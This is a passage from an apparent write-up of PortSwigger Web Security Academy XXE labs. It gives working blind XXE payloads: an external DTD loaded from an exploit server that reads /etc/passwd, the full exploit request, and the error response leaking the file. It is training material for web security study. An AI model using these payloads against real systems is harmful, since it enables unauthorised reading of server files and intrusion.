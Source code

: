                         <code class="code-scrollable">&lt;!DOCTYPE foo [&lt;!ENTITY % xxe SYSTEM "YOUR-DTD-URL"&gt; %xxe;]&gt;</code>
                    </li>
                    <li>
                        Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again.
                    </li>
                    <li>
                        You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The HTTP interaction could contain the contents of the <code>/etc/hostname</code> file.
                    </li>
                </ol>
            </div>
        </div>




#### Exploiting blind XXE to retrieve data via error messages

> This lab has a "Check stock" feature that parses XML input but does not display the result.
>
> To solve the lab, use an external DTD to trigger an error message that displays the contents of the /etc/passwd file.
>
> The lab contains a link to an exploit server on a different domain where you can host your malicious DTD

evil.dtd

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%exfiltrate;
```

exploit

```http
POST /product/stock HTTP/1.1
Host: 0ad100d60365a55dc06a68aa00000025.web-security-academy.net
Content-Type: application/xml
Content-Length: 238

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a34006c03c4a5a2c08c68e9018300e7.web-security-academy.net/evil.dtd"> %xxe;]><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 1339

"XML parser exited with non-zero code 1: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
......
```
